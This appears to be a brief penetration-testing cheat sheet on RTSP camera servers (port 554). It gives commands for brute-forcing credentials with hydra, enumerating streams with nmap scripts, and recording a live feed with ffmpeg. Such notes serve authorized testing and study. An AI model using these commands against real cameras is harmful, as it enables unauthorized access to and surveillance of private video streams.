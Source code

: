 # Real-Time Streaming Protocol (RTSP)

## Port: 554

## Tools: nmap, hydra, cameradar, ffmpeg

Link: https://github.com/Ullaakut/cameradar

### Brute-force for credentials if it requires authentication to the RTSP server

    hydra -l USER -P /path/to/passwords.txt TARGET_IP rtsp

### If we discover a machine that runs RTSP, we can run nmap to discover live streams

    sudo nmap -sV --script "rtsp-*" -p 554 TARGET_IP

### If we discover live streams this way, we can extract them and view the live stream we have downloaded to our machine

    ffmpeg -rtsp_transport tcp -i rtsp://TARGET_IP:554/mpeg4 -c copy mpeg.mp4 

### Then, open with:

    open mpeg.mp4

### or any other media player like VLC to view.
